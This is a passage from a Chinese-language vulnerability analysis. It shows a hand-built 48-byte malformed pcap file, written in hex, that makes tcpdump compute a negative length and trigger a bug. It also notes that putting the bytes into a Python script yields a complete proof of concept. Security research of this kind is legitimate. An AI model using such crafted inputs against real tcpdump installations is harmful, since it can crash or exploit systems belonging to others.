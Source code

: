 上面的数据中，凡是没有明确要求的全部设成了0。注意`caplen`字段，以及数据部分的前两个字节其实也不是固定的，只要最后能够计算出负数的长度就可以，可以根据源码自己选取字段内容。

最后组合成的数据包为：

```
D4 C3 B2 A1 02 00 04 00 | 00 00 00 00 00 00 00 00
10 00 00 00 49 00 00 00 | 00 00 00 00 00 00 00 00
08 00 00 00 08 00 00 00 | 40 FF 00 00 00 00 00 00
```

使用tcpdump打开该数据包，也成功引发了漏洞。

把python代码中的`buffer`改成自己构建的`crash`文件内容，就是一个完整的poc了。

## 4. 参考资料

- https://whereisk0shl.top/post/2016-10-23-1
- https://www.rfwireless-world.com/Tutorials/Zigbee-MAC-layer-frame-format.html